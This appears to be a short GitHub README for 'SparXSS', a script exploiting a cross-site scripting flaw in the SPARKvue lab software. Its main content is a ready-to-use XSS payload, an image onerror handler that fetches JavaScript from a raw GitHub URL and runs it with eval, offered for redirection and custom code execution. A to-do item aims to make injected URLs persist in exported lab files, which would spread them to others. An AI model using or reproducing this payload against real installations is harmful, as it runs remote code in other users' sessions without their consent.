 # SparXSS

## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:<br>```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

# ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)
